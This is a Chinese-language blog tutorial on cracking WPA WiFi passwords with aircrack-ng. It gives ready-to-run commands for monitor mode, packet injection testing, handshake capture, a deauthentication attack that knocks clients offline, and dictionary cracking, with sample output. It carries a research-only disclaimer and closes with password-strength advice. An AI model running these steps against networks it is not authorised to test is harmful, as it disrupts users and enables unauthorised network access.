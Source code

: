 ```yaml
---  
layout: post  
author: chenglong  
title: 使用aircrack破解WiFi密码
categories: [wifi, sercurity]
description: using aircrack to crack the WPA passwd of wifi
keywords: wifi, wpa, aircrack, sniffer
---  
```


Aircrack-ng是一组用于wifi探测，抓包以及破解的工具集合。WPA是目前主要的wifi身份认证的方式，利用aircrack工具我们可以有效地探测到当前网络中的ap和station信息，并诱导抓取WPA的4次握手认证报文，从而利用字典方式进行破解。

> ==声明== : 本文仅用于研究用途！

<!-- abs -->

# 0 准备工作

在破解前需要以下准备工作：

- 一台linux机器
- 一个可以进入monitor mode的wifi网卡，由于同一个网卡在抓包过程中无法同时使用ip网络，因此为了方便最好单独准备一个usb wifi网卡用于抓包
- 安装aircrack-ng工具
- 进行packet-injection(包注入)测试，确定网卡可用并确认抓包范围

对于工具安装过程在ubuntu下执行`sudo apt-get install aircrack-ng`即可，其他发行版本自行查找源下载方式，或者下载源码编译。

这里对选取合适wifi网卡和packet-injection测试做一个说明

## 0.1 选取wifi抓包网卡

正常情况下wifi网卡是无法直接抓取空口报文的，需要进入monitor模式才可以，而monitor模式功能由wifi网卡的firmware控制，很多wifi网卡厂商出于各种原因是没有提供这种模式的，对于这类网卡有的可以通过重新烧写自定义的firmware实现功能，例如树莓派上的博通网卡在github上就有一个可用的开源firmware版本nexmon。简单的方法就是选取本身支持该模式的usb网卡进行测试。

把usb wifi网卡插入后，输入`lsusb` 找到对应的设备，其中`ID xxxx:xxxx`代表了设备的芯片id号，将这个id号在谷歌搜索即可得到具体的芯片型号，这样就可以确认该芯片是否支持monitor mode。

如果设备正常驱动就绪的话，输入`iw dev`即可看到新插入的wifi网卡

常见的可用wifi网卡型号如下，可以直接购买以下列表的网卡进行测试：

- Atheros AR9271
- Ralink RT3070
- Ralink RT3572
- Realtek 8287L
- Realtek RTL8812AU

## 0.2 paket-injection 测试

首先将wifi网卡进入monitor mode：

```
airmon-ng start wlan0

Found 3 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to run 'airmon-ng check kill'

  PID Name
  428 NetworkManager
  522 dhclient
  718 wpa_supplicant

PHY	Interface	Driver		Chipset

phy1	wlan0		rt2800usb	Ralink Technology, Corp. RT5372

		(mac80211 monitor mode vif enabled for [phy1]wlan0 on [phy1]wlan0mon)
		(mac80211 station mode vif disabled for [phy1]wlan0)
```

其中wlan0为通过`iw dev`或者`ifconfig`方式获取的网卡名称,如果出现上图输出则进入monitor模式成功,注意当进入monitormode后网卡名称往往会发生改变，例如改变为`wlan0mon`

接着执行packet-injection测试：
```
aireplay-ng --test wlan0mon

12:47:05  Waiting for beacon frame (BSSID: AA:BB:CC:DD:EE) on channel 7
12:47:05  Trying broadcast probe requests...
12:47:06  Injection is working!
12:47:07  Found 1 AP

12:47:07  Trying directed probe requests...
12:47:07  AA:BB:CC:DD:EE - channel: 7 - 'Dobis'
12:47:08  Ping (min/avg/max): 0.891ms/15.899ms/32.832ms Power: -21.72
12:47:08  29/30:  96%
```
这里会探测附近的所有ap，并对每个ap逐个发送单播probe请求并检查响应，上面`12:47:08 29/30 96%`代表发送了30个单播请求，收到了29个响应，成功率为96%，因为网卡和ap的网络覆盖范围不同，例如会出现能够收到ap报文但发送的报文无法送达ap的情况，这一步的用于确认当前环境的攻击范围

# 1 抓取空口报文

执行`airodump-ng -c 11 --bssid xx:xx:xx:xx:xx -w out.cap wlan0mon` ,其中各参数含义如下：

- `-c` 代表选择11信道
- `--bssid` 选择过滤的bssid，这里就是ap的mac地址
- `-w out.cap` 将抓包信息保存到文件
- `wlan0mon` 选择网卡

执行后可以看到如下抓包信息：
```
  CH  9 ][ Elapsed: 4 s ][ 2007-03-24 16:58 ][ WPA handshake: 00:14:6C:7E:40:80
                                                                                                               
  BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                               
  00:14:6C:7E:40:80   39 100       51      116   14   9  54  WPA2 CCMP   PSK  teddy                           
                                                                                                               
  BSSID              STATION            PWR  Lost  Packets  Probes                                             
                                                                                                               
  00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35     0      116  
```
位于上方的为ap，下方为连接到ap的station信息

# 2 执行deauthentication攻击促使station断链

用于破解WPA的4路握手报文，仅在station开始连接的时候才会出现，因此如果只是被动等待抓包很可能一直都抓取不到。因此这里需要主动促使station发生短连然后再抓取其重连时产生的4路握手报文。注意在整个过程中始终要保持上一步的抓包进行处于执行中。

`aireplay-ng -0 1 -a xx:xx:xx:xx:xx:xx -c xx:xx:xx:xx:xx:xx wlan0mon`

其中`-0`代表发动deauthentication攻击，1代表发生一次攻击，-a为bssid，即ap的mac地址，-c为对应的station的mac地址，当发动攻击成功后，station会暂时短连并很快重新连接，同时在上一步的抓包中会产生一个`EAPOL`提示则代表抓取成功。

# 3 利用字典执行破解

`aircrack-ng -w passwd.lst -b xx:xx:xx:xx:xx:xx psk.cap`

passwd.lst为破解字典，-b为指定的bssid即ap mac地址，psk.cap为上一步中抓取的包含WPA 4路握手报文的抓包文件。如果破解成功，则会出现如下提示：

```
                               Aircrack-ng 0.8
 
 
                 [00:00:00] 2 keys tested (37.20 k/s)
 
 
                         KEY FOUND! [ 12345678 ]
 
 
    Master Key     : CD 69 0D 11 8E AC AA C5 C5 EC BB 59 85 7D 49 3E 
                     B8 A6 13 C5 4A 72 82 38 ED C3 7E 2C 59 5E AB FD 
 
    Transcient Key : 06 F8 BB F3 B1 55 AE EE 1F 66 AE 51 1F F8 12 98 
                     CE 8A 9D A0 FC ED A6 DE 70 84 BA 90 83 7E CD 40 
                     FF 1D 41 E1 65 17 93 0E 64 32 BF 25 50 D5 4A 5E 
                     2B 20 90 8C EA 32 15 A6 26 62 93 27 66 66 E0 71 
 
    EAPOL HMAC     : 4E 27 D9 5B 00 91 53 57 88 9C 66 C8 B1 29 D1 CB 
```

到这里wpa的破解就完成了。

# 总结

看起来是不是很简单？但可惜的是实际上wpa的破解并没有这么简单：) 原因就在于这种方式的破解实际是一种暴力破解方式，仅对于非常简单的密码会有效果，假如密码是`*Abda23J2*`这种的话，用这种方法几乎是无法破解的，破解需要的时间会远远超过实际可能。但如果结合社会工程学缩小范围得到一个较为良好的字典，还是有可能破解的。因此在平时注意不要设置过于简单的密码，只要数字字母符号简单的结合就能让这类攻击方法失效。

> ref
[wpa crack](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
